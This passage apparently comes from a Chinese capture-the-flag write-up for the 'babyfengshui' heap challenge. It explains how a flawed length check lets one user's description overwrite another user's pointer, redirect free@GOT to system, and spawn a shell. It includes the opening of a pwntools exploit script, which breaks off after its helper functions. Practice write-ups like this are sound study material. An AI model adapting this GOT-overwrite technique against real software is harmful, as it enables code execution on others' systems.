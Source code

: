 ```python
p.interactive()
```



## babyfengshui

![b0.png](https://i.loli.net/2019/08/06/VCtvMscRBfJbwr7.png)

找找漏洞

![b1.png](https://i.loli.net/2019/08/06/CTUtaQYXAb5uIOi.png)

add功能中会往chunk中放指针，在这道题中，就是往user_chunk的头四个字节放description_chunk的指针，同时在display与update功能中会对这个指针的内容进行读写，这就是我们要利用的，如果可以把这个指针修改，就可以任意地址读写

问题就是如何进行溢出修改user_chunk中的指针，在add的实现中是descrip_chunk在user_chunk之上

![b3.png](https://i.loli.net/2019/08/06/z2xsqC3LuUpFgwo.png)

当对descrip_chunk进行写的时候，会验证长度确保不会写入user_chunk区域，这里直接利用两个chunk的地址来检查长度，硬核

但是也不是没有利用的方法，不可以修改自己的指针，可以修改别人的指针，若是在descrip_chunk与user_chunk之间存放有其他的user，则可以修改其余user的指针，从而利用其余user进行读写

先添加三个user，再把第一个delete掉，第一个user的两个chunk会进行合并（非fastbin）放进unsortedbin，接着再次申请一个user，这时候的descrip的长度控制使其chunk的size与unsortedbin中的chunk一致，这时候新建的user的descri_chunk会在头部，user_chunk会在底部，从而可以修改第二第三个user的数据，放一个free.got，将其改为system，再去free一个带有/bin/sh的chunk，即可getshell

![b2.png](https://i.loli.net/2019/08/06/V9Kg4YGiQBEj8Nc.png)

完整EXP：

```python
from pwn import *
elf = ELF('babyfengshui')
p = process("./babyfengshui")
libc = ELF("/libc32.so")


def add_user(size, length, text):
    p.sendlineafter("Action: ", '0')
    p.sendlineafter("description: ", str(size))
    p.sendlineafter("name: ", 'AAAA')
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("text: ", text)


def delete_user(idx):
    p.sendlineafter("Action: ", '1')
    p.sendlineafter("index: ", str(idx))


def display_user(idx):
    p.sendlineafter("Action: ", '2')
    p.sendlineafter("index: ", str(idx))


def update_desc(idx, length, text):
    p.sendlineafter("Action: ", '3')
    p.sendlineafter("index: ", str(idx))
    p.sendlineafter("length: ", str(length))
    p.sendlineafter("text: ", text)


add_user(0x80, 0x80, 'AAAA')
```